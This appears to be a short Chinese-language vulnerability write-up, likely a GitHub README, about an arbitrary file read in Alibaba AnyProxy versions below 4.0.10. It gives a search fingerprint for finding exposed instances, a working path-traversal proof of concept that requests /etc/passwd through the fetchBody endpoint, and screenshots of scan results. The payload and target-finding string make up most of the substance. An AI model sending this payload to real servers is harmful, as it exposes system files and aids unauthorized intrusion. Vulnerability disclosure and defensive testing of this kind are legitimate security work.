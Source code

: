 # Alibaba AnyProxy fetchBody 任意文件读取漏洞

## 漏洞描述

Alibaba AnyProxy 低版本存在任意文件读取，通过漏洞，攻击者可以获取服务器敏感信息

## 漏洞影响

Alibaba AnyProxy < 4.0.10

## 网络测绘

"anyprox"

## POC

```plain
/fetchBody?id=1/../../../../../../../../etc/passwd
```

## 扫描结果
![YLWQ3XCYVVPMV8WPG1~XBL4](https://github.com/a1665454764/AlibabaAnyProxyfetchBody/assets/143511005/c05e168e-2af8-49e3-9321-2b8797af8786)
![ATBI(@757XQER%UHM6HM}_E](https://github.com/a1665454764/AlibabaAnyProxyfetchBody/assets/143511005/e5aadfc7-600d-4b9a-8024-2b77d85393a0)
